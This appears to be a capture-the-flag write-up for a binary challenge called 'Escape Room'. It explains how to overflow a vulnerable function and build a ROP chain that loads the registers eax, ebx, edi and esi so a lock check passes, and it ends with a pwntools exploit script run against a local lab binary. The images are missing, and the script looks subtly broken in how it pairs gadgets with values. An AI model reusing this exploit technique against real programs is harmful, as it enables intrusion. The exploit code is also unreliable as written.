






# Escape Room 

This challenge tells us that we need to unlock the lock inorder to get the key. And the lock can be unlocked by using the four registers eax, ebx, edi and esi.


Looking at the source code, it seems that the **unlock combination lock function** will be automatically called for us after the **vulnerable** function which takes our payload.


In the **unlock** function we observe that the local variables need to have certain values inorder to pass the check.
 



Above that we can see these local variables are assigned values by moving register values in them.




So, it seems we need to push our values into the registers in order to get the key.


## ROP chain
We can build our ROP chain by retrieving our gadgets.







## Exploit
The final code is:
```python
from pwn import *


# Our target
target = './escape-room'
e = context.binary = ELF(target,checksec=True)
#context.log_level='debug'


io = process(target)


print(io.recv())
print("Sending the Payload NOW")


eax = 0xf79e8588
ebx = 0x08049584
edi = 0xf5ccbfef
esi = 0xf5cb9c1b


payload = ''

payload += p32(eax)
payload += p32(0xdeadbeef)
payload += p32(ebx)
payload += p32(0xcafebabe)
payload += p32(edi)
payload += p32(0x0ece5612)
payload += p32(esi)
payload += p32(0x12345678)

io.sendline(payload)
print(io.recv())
print(io.recv())
io.close()
```